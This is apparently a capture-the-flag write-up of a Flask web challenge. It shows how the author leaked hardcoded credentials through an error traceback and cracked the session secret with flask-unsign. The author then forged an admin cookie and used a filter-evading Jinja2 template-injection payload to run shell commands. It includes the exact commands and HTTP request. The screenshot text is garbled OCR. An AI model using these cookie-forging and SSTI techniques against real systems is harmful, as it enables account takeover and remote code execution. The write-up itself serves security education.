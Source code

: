 # Father's Light
> Enter the enigmatic realm of "Father of Light" Unleash your skills, explore hidden paths, and uncover the depths of mysterious creations. Will you emerge as the champion? Dare to unravel the enigma.

## About the Challenge
We were given a website (without the source code) and there is a login page in this website


[Image extracted text: 6 7 G
34.18.3.149.5000
LOGIN
Username:
Password:
Login]


## How to Solve?
If you check the HTTP response header, this website using Python and Werkzeug.


[Image extracted text: Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
GET
(login
HITP/1.1
HTIP/1-1
200
OI
Host
34 - 18
3-149: 5000
Server
Werkzeug/ --
3.6
Python/ 3 _
11--
User-Agent
Hozilla/5
(Windovs
10
Jin64;
x64;
Dat e
Sat
05
Aug 2023
08:22
GHT
rv:109
Gecko/EOJOOIO1
Firefox/[15
Content
Type:
text /htnl
charsetsut f-8
Accept
Content
Lengch:
1520
ext /htnl
applicat
on / xhthltznl
application/ <nl;q-0-9 , imagefav
Connect
on -
close
inage/uebp
Accept-Language
en-US
en;
IDOCTTPE
html>
Aecept
Encoding:
gzip ,
deflace
<henl>
Referer
http: / /34
3-149: 5000/dashboard
<head>
Connect
on:
elose
<citle>
Upgrade
Ins
cure-
Requests:
Login Page
~[cicle>
<style>
body{
4-0 .
9=0 -]


And now I tried to make the website error to know what is the response. In this case I made the website error by removing `password` parameter when hitting `/login` endpoint


[Image extracted text: File "Iapplvenvlliblpython3.11/site-packageslflask_limiterlextensionpy" , line 1162,in
inner
flask
current_app.ensure_sync(cast(Callable[P, R], obj)) (*a, **k)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
File "applapp py" , line 28,in login
@app.route( ' /login'
methods-[ 'GET "
POST' ])
@limiter.limit("20
per minute'
def login()
if request.method
POST
username
request. form[
username
password
request.form[ 'password' ]
AAAAAAAAAAAAAAAAAAAAAAAA
pattern
select(union] | ' | "[orland|#| --I-/
I1-1
if
re.
search(pattern,
username)
flash( 'Do You think YOU
can Hack My Applicationnnnnnnn! ! ! "
error
return
render_template( 'login.html
error-True)
elif username
admin
and password
password"
File "lapplvenvlliblpython3 11/site-packageslwerkzeug/datastructures/structures py"
line 192 , in
_getitem
raise exceptions.BadRequestKeyError(key)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA]


Hmmm there is an interesting code here especially in the `elif` part. Lets try to login using `admin:password` credential


[Image extracted text: 6 7 6
34.18.3.149.5000/user
0
5
=
WELCOME TO THE REGULAR USER PAGE
You are logged in as a regular user:
Logout]


Yay, we can login but as an `user`? Let's check the cookie value


[Image extracted text: Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
FET
luser
HTTP/1-1
HTTP/1-1
200
2 Host:
34-18,3-149: 5000
Server:
Verkzeug/--3.6 Python/3-11- -
User-
Agent
Hozilla/5
(Vindous
IT
10
Vine4 ;
264;
17:109
Gecko/ZO1OO1O1
Dace
Sat
2023
13:04:16
GHT
Firefox/115
Contenc-
Type
cext/htrl
charsetzuc f-8
Accept
Cont ent-Length:
1030
cexc/htrl
applicat
on / xhcaltxnl
applicat
on/ xnl
47-0
image/ avif
inage /vebp ,* /*;4-0
Vary:
Coolie
Accept-Language
en-US
en;9F0_
Connect_
on -
Close
lcept
Encoding:
gzip ,
deflace
Referer
http
1/34- 18 _
149:
5000/login
DOCTYPE
hthl?
Connect
on :
close
<hcnl>
Coolie
sess
on=
shead>
eJyrVsosjkIHyc3HU?JKSB-pTtVRKilOLYrPTFGYUj IOHLKCBPMScLOBAbCFt QDj SxGP
ZIISITg-IrGIJBGC
<citle>
FxPIkOiOLoE_Cuc_cGc
User Page
Upgrade
Ins
Cure=
Requescs:
</cicle>
style>
14
body {
15
background-color
#fzfzf2;
16
font-
fanily Arial
SsuS-
serif;
17
font -
s1ze
Gpx
18
line-
heighe
19
20
conc
ainer
background-color
4fff;
23
border
adius
1Opx
box-shadov: OOlOpxrgba(0
0 ,0,
0.21
margin: 5 Oprauto
Aug]


This website was using flask for Session-based auth. And because of this website using flask, we can bruteforce the secret key and changed the value of the cookie.

```bash
root@root:~$ flask-unsign --unsign --cookie ".eJyrVsosjk9Myc3MU7JKS8wpTtVRKi1OLYrPTFGyUjI0M1KC8PMSc1OBAhCFtQDj5xGP.ZM5ITg.NrGKbBGCkxPIk0iQLQE2Cuc2cGc" --wordlist /home/daffainfo/tools/rockyou.txt  --no-literal-eval
[*] Session decodes to: {'is_admin': False, 'user_id': '162', 'username': 'admin'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 30080 attempts
b'amorlove'
```

We got `amorlove`. And now tried to change the value of `is_admin` from `False` to `True`. Sign the cookie again using `flask-unsign`

```bash
root@root:~$ flask-unsign --sign --cookie "{'is_admin': True, 'user_id': '162', 'username': 'admin'" --secret 'amo
rlove'
.eJxTqlbPLI5PTMnNzFO3UggpKk3VUVAvLU4tis9MAQqoG5oZqUNF8hJzU0FCEMVKABlZEb0.ZM5KNg.PfOTwsnj9w7TxbSPYtQDuLg9lJQ
```

Use the cookie to access `/user` endpoint again and as you can see the the privilege was changed from `user` to `admin`. Now go to `/dashboard` and you will find another form that vulnerable SSTI. In the end the payload was something like this

```
POST /POST HTTP/1.1
Host: 34.18.3.149:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Origin: http://34.18.3.149:5000
Connection: close
Referer: http://34.18.3.149:5000/dashboard
Cookie: session=eyJpc19hZG1pbiI6dHJ1ZSwidXNlcl9pZCI6IjEiLCJ1c2VybmFtZSI6ImRkZGQifQ.ZM2u4A.rbYhmXmWZmjpdzXAIQH6pb5EFfk
Upgrade-Insecure-Requests: 1

name={{lipsum['\x5f\x5fglobals\x5f\x5f']['os']['po''pen']('cat+app.py')['re''ad']()}}&email=test%40mail.com&post_content=test
```

> There is no screenshot for this part because the website was down

```
ASCWG{H0la_H@Ck3r5_Th1s_a_S3m6le_55TI}
```